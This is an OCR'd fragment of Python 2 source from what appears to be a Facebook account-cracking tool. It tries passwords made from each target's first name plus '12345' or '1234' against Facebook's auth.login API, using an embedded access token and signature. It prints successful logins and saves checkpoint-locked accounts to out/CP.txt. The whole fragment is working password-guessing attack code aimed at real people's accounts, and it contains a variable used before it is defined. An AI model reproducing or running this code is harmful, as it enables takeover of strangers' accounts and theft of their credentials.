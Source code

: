 							pass3 = b['first_name'] + '12345'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)

							if 'access_token' in q:

								print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass3 + ' 👽 ' + b['name']

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass3 + ' 👽 ' + b['name']

									cek = open("out/CP.txt", "a")

									cek.write(user+"|"+pass3+"\n")

									cek.close()

									cekpoint.append(user+pass4)

								else:

									pass4 = b['first_name'] + '1234'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass4 + ' 👽 ' + b['name']

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass4 + ' 👽 ' + b['name']

											cek = open("out/CP.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:
